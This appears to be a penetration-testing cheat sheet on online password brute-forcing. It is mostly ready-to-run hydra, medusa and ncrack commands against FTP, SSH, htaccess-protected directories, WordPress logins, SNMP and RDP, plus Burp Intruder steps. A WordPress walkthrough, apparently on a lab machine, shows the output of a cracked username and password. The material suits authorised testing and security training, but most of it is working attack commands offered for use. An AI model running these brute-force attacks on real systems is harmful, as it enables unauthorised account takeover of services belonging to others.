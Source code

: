# Online Password Cracking

There are several tools specialized for bruteforcing online. There are several different services that are common for bruteforce. For example: VNC, SSH, FTP, SNMP, POP3, HTTP.

> [https://tools.kali.org/password-attacks/hydra](https://tools.kali.org/password-attacks/hydra)

## Port 21 - FTP

```text
hydra -L users.txt -e nsr 192.168.56.102 ftp
# -e nsr try "n" null password, "s" login as pass and/or "r" reversed login
```

## Port 22 - SSH

```text
# Hydra
hydra -l root -P wordlist.txt 192.168.0.101 ssh
hydra -L userlist.txt -P best1050.txt 192.168.1.103 -s 22 ssh -V

# Example on kioptrix 3
hydra -e nsr -l loneferret -P /root/Desktop/wordlists/10_million_password_list_top_100000.txt 192.168.1.70 ssh -t 4

# Medusa 
# -e ns for additional password checks ([n] No Password, [s] Password = Username)
# -f Stop scanning host after first valid username/password found
# -M to specify the module to execute ie SSH
medusa -h 192.168.56.103 -U users.txt -P /usr/share/wordlists/rockyou.txt -e ns -f -M ssh
```

## Port 80/443 htaccess

You can password protect directories with apache pretty easily. Just configure the htaccess \(I exaplin this in the chapter on Common ports\).

It can then be brute forced like this:

```text
medusa -h 192.168.1.101 -u admin -P wordlist.txt -M http -m DIR:/test -T 10
```

### Logins

Use Burp suite.

1. Intecept a login attempt.
2. Right-lick "Send to intruder". Select Sniper if you have nly one field you want to bruteforce. If you for example already know the username. Otherwise select cluster-attack.
3. Select your payload, your wordlist.
4. Click attack.
5. Look for response-length that differs from the rest.

#### Wordpress with hydra

Using BurpSuite, intercept a login attempt:

```text
POST /wp-login.php HTTP/1.1
Host: 192.168.2.4
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.2.4/wp-login.php
Cookie: s_cc=true; s_fid=7F27FDE8AFB035AA-13A01347AD602162; s_nr=1550824589386; s_sq=%5B%5BB%5D%5D; wordpress_test_cookie=WP+Cookie+check
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 102

log=user&pwd=pass&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.2.4%2Fwp-admin%2F&testcookie=1
```

We can bruteforce it using hydra:

```text
$ hydra -vV -L wordslist.txt -p wedontcare 192.168.2.4 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
```

* **-vV** : Verbose
* **-L wordslist.txt** : Try all the usernames from the file wordslist.txt
* **-p wedontcare** : Use an unique password, it doesn’t matter \(we’re only interested in the username for now\)
* **192.168.2.4** : The IP of the machine we’re attacking
* **http-post-form** : What we’re trying to brute force, here a HTTP POST form
* **‘/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username’**
  * **/wp-login.php** : The path to where the form is located
  * **log=^USER^&pwd=^PASS^&wp-submit=Log+In** : The POST parameters to send. ^USER^ and ^PASS^ are placeholders that wiil be replaced with the actual values.
  * **F=Invalid username** : Consider an attempt as a failure \(F\) if the response contains the text _Invalid username_

After a few minutes, we get:

```text
[80][http-post-form] host: 192.168.124.139   login: elliot   password: wedontcare
```

Now we know there is a WordPress user named **elliot**. Let’s try to bruteforce his password using the same technique and word list:

```text
$ hydra -vV -l elliot -P wordslist.txt vm http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is incorrect'
[...]
[80][http-post-form] host: 192.168.2.4 login: elliot password: ER28-0652
1 of 1 target successfully completed, 1 valid password found
```

## Port 161 - SNMP

```text
hydra -P wordlist.txt -v 102.168.0.101 snmp
```

## Port 3389 - Remote Desktop Protocol

For RDP we can use Ncrack.

```text
ncrack -vv --user admin -P password-file.txt rdp://192.168.0.101
hydra -V -f -L /root/Desktop/user.txt -P /root/Desktop/dict.txt rdp://192.168.0.101
```

